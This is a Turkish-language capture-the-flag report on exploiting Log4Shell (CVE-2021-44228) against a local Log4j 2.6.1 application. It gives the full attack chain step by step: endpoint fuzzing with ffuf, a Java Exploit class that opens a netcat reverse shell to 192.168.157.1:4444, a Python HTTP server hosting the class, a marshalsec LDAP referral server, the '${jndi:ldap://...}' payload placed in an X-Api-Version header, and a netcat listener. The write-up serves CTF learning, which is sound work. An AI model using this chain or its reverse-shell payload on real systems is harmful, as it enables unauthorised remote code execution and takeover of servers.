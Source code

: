 ## CTF Raporu – Log4Shell (JNDI Injection) Saldırısı

**Takım Adı:** Takkeliler
**Yazar:** Ak Takkeli Burak
**Tarih:** 15.04.2025

---

###  Zafiyetin Adı / Kategorisi
**Log4Shell (CVE-2021-44228) – Uzak Kod Çalıştırma (RCE)**

---

###  Açıklama
Apache Log4j 2.6.1 sürümü, bilinen Log4Shell (JNDI Injection) açığına karşı savunmasızdır. Bu zafiyet sayesinde, hedef sistemde şu yöntemlerle uzaktan kod çalıştırma sağlanabilir:
- Uygulama, giriş verilerini loglarken Log4j kütüphanesini kullanıyorsa,
- JNDI üzerinden uzak LDAP sunuculara bağlantı sağlanabiliyorsa,
- Bu LDAP sunucular da hedef sistemin kod yürütmesine yol açacak öğeleri sunabiliyorsa.

Bu açık, sıkı sık uygulamalarda loglanan HTTP header bilgileri (User-Agent, Referer, vs.) üzerinden tetiklenebilir. Bu senaryoda, `X-Api-Version` headerı kullanılmıştır.

---

###  Saldırı Aşamaları

#### 1. Endpoint Keşfi
Fuzzing ile hedef uygulamadaki endpointler tespit edildi:

```bash
ffuf -u http://localhost:8080/FUZZ -w ./common.txt
```

Sonuç olarak `/api` ve `/systeminfo` endpoint'leri bulundu. `/systeminfo` endpoint'i sistem hakkında bilgi verirken, `/api` endpoint'i `X-Api-Version` header'larına duyarlıydı.

#### 2. Log4j Versiyonunun Tespiti

Hedef sistemde Log4j 2.6.1 kullanılıyordu. Bu versiyon, JNDI Injection'a karşı savunmasız olduğu için RCE için kullanıldı.

#### 3. Exploit.java Sınıfının Hazırlanması

```java
import java.io.IOException;
public class Exploit {
    static {
        try {
            String[] cmd = {"/bin/sh", "-c", "nc 192.168.157.1 4444 -e /bin/sh"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

Sınıf, derlendikten sonra şu klasörde barındırıldı:

```bash
javac Exploit.java
```

#### 4. HTTP Sunucusu Kurulumu

Exploit.class dosyasını sunmak için Python HTTP sunucusu kuruldu:

```bash
(base) burak@burak-ABRA-A7-V11-4:~/ctf$ python -m http.server 8888
```

#### 5. LDAP Sunucusu Kurulumu (Marshalsec)

```bash
cd ~/ctf/marshalsec/target
(base) burak@burak-ABRA-A7-V11-4:~/ctf/marshalsec/target$
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.245.59:8888/#Exploit"
```

LDAP sunucusu, hedef sistem tarafından istek geldiğinde, HTTP sunucusundan `Exploit.class` dosyasını indirip çalıştıracak şekilde ayarlandı.

#### 6. Postman ile Payload Gönderimi

Postman üzerinden HTTP isteği atıldı:

```
GET /api HTTP/1.1
Host: localhost:8080
X-Api-Version: ${jndi:ldap://192.168.245.59:1389/Exploit}
```

Bu istek, hedef sistemin LDAP sunucusuna bağlanmasını sağladı.

#### 7. Reverse Shell Dinleme

Netcat ile 4444 portunda dinleme başlatıldı:

```bash
(base) burak@burak-ABRA-A7-V11-4:~$ nc -lvp 4444
```

Hedef sistemden gelen bağlantı başarıyla alındı ve shell erişimi elde edildi. Komut çalıştırma ve sistem kontrolü sağlandı.

---

###  Kullanılan Araçlar ve Komutlar

- `ffuf`: Endpoint fuzzing
- `marshalsec`: LDAP sunucu kurulum aracı
- `python3 -m http.server`: Exploit.class dosyasını paylaşmak
- `javac`: Java exploit derlemesi
- `netcat (nc)`: Reverse shell dinleyici
- `Postman`: HTTP isteklerini manuel tetikleme

---

###  Sonuç
Bu adımlar sonucunda hedef sistemde bulunan Log4Shell (CVE-2021-44228) zafiyetinden faydalanılarak tam yetkili reverse shell erişimi sağlanmıştır. Log4j kütüphanesinin zafiyetli sürümü, LDAP ve HTTP sunucularla birlikte kullanılarak sistemin dışarıdan kod çalıştırması sağlanmıştır.

